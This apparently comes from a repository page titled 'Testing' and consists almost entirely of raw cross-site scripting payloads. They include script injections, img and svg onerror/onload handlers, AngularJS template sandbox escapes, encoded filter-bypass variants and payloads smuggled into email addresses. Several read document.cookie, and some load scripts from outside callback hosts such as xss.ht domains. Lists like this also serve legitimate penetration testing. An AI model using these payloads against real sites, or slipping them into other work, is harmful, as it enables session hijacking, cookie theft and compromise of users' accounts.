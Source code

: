 # Testing

<style>
.test{
   color:red;
}

"/>&lt;script>alert(document.cookie)&lt;/script>"/>

{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\u002ex)alert(window\u002ex=1)')+eval(y)+\"'");}}}}

<script>alert(1)%0d%0a-->%09</script

' accesskey=X onclick=alert(document.cookie) '

' onmouseover=alert(document.cookie) '

<img src=x onmouseover=confirm()>

‘%uff1cscript%uff1ealert(‘XSS’);%uff1c/script%uff1e’
#<img src=x onerror=alert(0)>

&lt;script&gt;alert(&#x27;xss&#x27;);&lt;/script&gt;

{{[].pop.constructor&#40'alert\u00281\u0029'&#41&#40&#41}}

'"; alert("XSS attack!"); //';

<img src=x onerror=alert(document.cookie)>
'-alert(document.cookie)-';"-alert(document.cookie)-"//"><svg/onload=alert(3)>
<img src=totallyfake onerror=alert(1);//
<img src=x onerror=import(‘//domain.com/‘);//
'"onclick=(co\u006efirm)?.`0`><sVg/i="${{7*7}}"oNload=" 0>(pro\u006dpt)`1`"></svG/</sTyle/</scripT/</textArea/</iFrame/</noScript/</seLect/--><h1><iMg/srC/onerror=alert`2`>%22%3E%3CSvg/onload=confirm`3`//<Script/src=//ChiragXSS.xSs.ht></scripT>


“><svg/onload=confirm(1)>”@gmail.com
<svg onload=location='javascript:alert(1)'>
"<script>alert(1)</script>"@gmail.com
"><--<img+src= "><svg/onload+alert(document.domain)>> --!>
'"></title></textarea></script></style></noscript><script src=abc.xss.ht></script>

test+(<script>alert(1)</script>)@gmail.com
"\/><img%20s+src+c=x%20on+onerror+%20="alert(1)"\>
"><svg+svg+svg\/\/On+OnLoAd=confirm(1)>



